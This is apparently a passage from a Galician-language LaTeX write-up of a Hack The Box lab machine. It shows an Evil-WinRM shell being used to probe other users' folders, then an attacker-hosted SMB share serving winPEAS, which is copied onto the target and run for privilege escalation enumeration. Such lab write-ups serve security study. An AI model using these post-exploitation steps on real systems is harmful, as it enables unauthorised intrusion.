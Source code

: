 \documentclass[a4paper]{article}
\begin{document}
        Non existe a flag, co cal comprobamos o acceso ás contas doutros usuarios:
        \begin{lstlisting}[language=Bash, caption=Outros usuarios existentes no sistema, linewidth=18.7cm]
*Evil-WinRM* PS C:\Users\amanda\Documents> dir c:\users\administrator
Access to the path 'C:\users\administrator' is denied.
At line:1 char:1
+ dir c:\users\administrator
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\administrator:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
*Evil-WinRM* PS C:\Users\amanda\Documents> dir c:\users\mrlky
Access to the path 'C:\users\mrlky' is denied.
At line:1 char:1
+ dir c:\users\mrlky
+ ~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\mrlky:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
*Evil-WinRM* PS C:\Users\amanda\Documents> dir c:\users\mrlky.HTB
Access to the path 'C:\users\mrlky.HTB' is denied.
At line:1 char:1
+ dir c:\users\mrlky.HTB
+ ~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\mrlky.HTB:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
*Evil-WinRM* PS C:\Users\amanda\Documents>\end{lstlisting}

Non temos acceso ao cartafol doutros usuarios, co cal imos ver se somos quen de acceder con outro usuario investigando posibles fallas mediante \href{https://github.com/sponsors/carlospolop}{\textcolor{blue}winpeas}:
        \begin{lstlisting}[language=Bash, caption=winpeas]
*Evil-WinRM* PS C:\Users\amanda\Documents> mkdir c:\windows\temp\temp
*Evil-WinRM* PS C:\Users\amanda\Documents> cd c:\windows\temp\temp

$ impacket-smbserver -smb2support TMP $(pwd)
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

*Evil-WinRM* PS C:\windows\temp\temp> copy //10.10.14.12/TMP/winPEASx64.exe winPEASx64.exe
*Evil-WinRM* PS C:\windows\temp\temp> dir


    Directory: C:\windows\temp\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/31/2022   8:27 PM        1936384 winPEASx64.exe


*Evil-WinRM* PS C:\windows\temp\temp> . .\winPEASx64.exe\end{lstlisting}
\end{document}
